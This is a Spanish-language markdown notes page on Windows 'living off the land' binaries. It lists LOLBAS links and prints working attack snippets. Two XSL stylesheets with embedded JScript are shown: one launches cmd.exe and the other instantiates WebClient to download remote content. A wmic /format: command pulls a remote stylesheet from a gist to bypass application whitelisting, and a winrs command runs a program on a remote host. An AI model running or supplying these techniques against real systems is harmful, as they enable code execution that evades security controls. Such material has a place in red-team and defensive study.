 #  LOLBin
https://twitter.com/search?q=%23LOLBin

# LOLBAS
https://github.com/api0cradle/LOLBAS
https://github.com/api0cradle/LOLBAS/tree/master/OSBinaries
https://github.com/api0cradle/LOLBAS/tree/master/OSLibraries
https://github.com/api0cradle/LOLBAS/tree/master/OSScripts
https://github.com/api0cradle/LOLBAS/tree/master/OtherBinaries

# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
https://gist.githubusercontent.com/caseysmithrc/4932a527e326de68f3bd212913d02c78/raw/8dd9696e937a7e66972a2e95c0d65a83ec9e3d7c/dotnet.xsl
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```

# Hack With XSLT
https://evi1cg.me/archives/Hack_With_XSLT.html

# WInRm Via Use winrs .exe in Launch Command Remotely
```CMD
#EnableAccess  
winrm.exe quickconfig
winrs -r:http://#SystemName:5985 -u:Domain\#Username "calc.exe"
```
